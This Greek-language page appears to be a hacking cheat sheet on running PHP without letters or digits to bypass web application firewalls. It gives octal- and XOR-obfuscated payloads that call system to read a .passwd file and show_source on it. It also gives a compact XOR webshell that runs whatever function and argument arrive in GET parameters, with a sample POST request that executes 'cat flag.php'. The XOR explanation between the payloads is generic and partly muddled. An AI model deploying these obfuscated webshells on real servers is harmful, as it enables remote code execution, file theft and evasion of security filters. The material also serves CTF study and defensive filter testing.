 ## Εκτέλεση PHP χωρίς γράμματα

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Χρήση οκταδικού συστήματος
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**

Το XOR (Αποκλειστικός Ή) είναι ένας λογικός τελεστής που χρησιμοποιείται συχνά στην κρυπτογραφία και στον υπολογιστικό τομέα. Ο τελεστής XOR εφαρμόζεται σε δύο δυαδικά bits και επιστρέφει έναν δυαδικό bit αποτέλεσμα. Η λογική πίνακας του XOR είναι η εξής:

| Είσοδος A | Είσοδος B | Αποτέλεσμα |
|-----------|-----------|-------------|
| 0         | 0         | 0           |
| 0         | 1         | 1           |
| 1         | 0         | 1           |
| 1         | 1         | 0           |

Στην κρυπτογραφία, το XOR χρησιμοποιείται για την κρυπτογράφηση και αποκρυπτογράφηση δεδομένων. Όταν δύο bits XOR-αρονται μεταξύ τους, το αποτέλεσμα είναι 1 αν τα bits είναι διαφορετικά και 0 αν είναι ίδια. Αυτή η ιδιότητα του XOR το καθιστά χρήσιμο για την παραγωγή κλειδιών κρυπτογράφησης και για την εφαρμογή αλγορίθμων κρυπτογράφησης, όπως το One-Time Pad.

Στον υπολογιστικό τομέα, το XOR χρησιμοποιείται για την εκτέλεση διαφόρων λειτουργιών, όπως η αντιστροφή bits, η ανίχνευση αλλαγών σε δεδομένα και η δημιουργία checksums.

Ο τελεστής XOR είναι επίσης χρήσιμος στον τομέα του hacking, καθώς μπορεί να χρησιμοποιηθεί για την εκτέλεση διαφόρων επιθέσεων, όπως η εύρεση κλειδιών κρυπτογράφησης, η ανίχνευση αλλαγών σε δεδομένα και η εκτέλεση επιθέσεων μεταξύ διαφορετικών διεργασιών.
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR εύκολος κώδικας κέλυφους

Σύμφωνα με [**αυτήν την ανάλυση**](https://mgp25.com/ctf/Web-challenge/), είναι δυνατόν να δημιουργηθεί ένας εύκολος κώδικας κέλυφους με την ακόλουθη μέθοδο:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
Έτσι, αν μπορείτε να **εκτελέσετε αυθαίρετο PHP χωρίς αριθμούς και γράμματα**, μπορείτε να στείλετε ένα αίτημα όπως το παρακάτω καταχρώντας αυτό το φορτίο για να εκτελέσετε αυθαίρετο PHP:
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Για μια πιο λεπτομερή εξήγηση, ανατρέξτε στο [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg\_match)
